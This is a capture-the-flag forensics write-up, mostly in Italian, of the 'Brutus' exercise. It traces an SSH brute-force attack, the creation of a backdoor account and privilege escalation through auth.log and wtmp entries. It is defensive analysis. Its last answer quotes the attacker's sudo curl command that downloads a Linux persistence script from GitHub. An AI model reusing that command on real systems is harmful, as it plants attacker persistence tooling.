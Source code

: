 # 🔍 Sherlock - Brutus | HTB CTF

> Very Easy | auth.log + wtmp | brute-force, escalation, persistenza

## 🧠 Scenario

In questo Sherlock (molto easy) si analizza `auth.log` e `wtmp` per ricostruire un attacco brute-force su un server Confluence. Dopo l’accesso SSH, l’attaccante esegue varie azioni che possiamo tracciare nei log.

---

## 1️⃣ Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

grep "Failed password" auth.log

Output:

Mar  6 06:31:33 ip-172-31-35-28 sshd[2329]: Failed password for invalid user admin from 65.2.161.68 port 46414 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2333]: Failed password for invalid user admin from 65.2.161.68 port 46452 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2352]: Failed password for backup from 65.2.161.68 port 46568 ssh2

Risposta: 65.2.161.68

## 2️⃣ The bruteforce attempts were successful. What is the username of the account?

grep "Accepted password" auth.log

Output:

Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2

Risposta: root

## 3️⃣ Identify the UTC timestamp when the attacker logged in manually

Uso lo script utmp.py su wtmp:

python3 utmp.py -o wtmp.out wtmp
cat wtmp.out | grep 65.2.161.68

Output:

"USER"  "2549"  "pts/1" "ts/1"  "root"  "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 07:32:45"   "387923"    "65.2.161.68"
"USER"  "2667"  "pts/1" "ts/1"  "cyberjunkie"   "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 07:37:35"   "475575"     "65.2.161.68"

Risposta: 2024-03-06 06:32:45 (UTC)

## 4️⃣ SSH login sessions are tracked... What is the session number?

grep "New session" auth.log

Output:

Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.

Risposta: 37

## 5️⃣ The attacker added a new user. What is the name of this account?

Lo vedo in auth.log:

Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2

Risposta: cyberjunkie

## 6️⃣ MITRE ATT&CK sub-technique ID for persistence?

Risposta: T1136.001 – Create Account: Local Account

## 7️⃣ What time did the attacker's first SSH session end?

Sessione 37, quindi cerco logout in auth.log:

2024-03-06 06:37:24

Risposta: 2024-03-06 06:37:24

## 8️⃣ Comando sudo per scaricare uno script

grep 'sudo' auth.log

Output:

Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
...
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Risposta:

/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

## 🧠 Considerazioni finali

CTF easy ma utile per ripassare concetti chiave:

    Lettura e analisi auth.log

    Uso di wtmp e utmp.py

    Tracciare brute-force

    Capire la differenza tra login e autenticazione

    Identificare attività post-exploitation (persistence + escalation)

Autore: Saitt01
Tool usati: grep, utmp.py, auth.log, wtmp
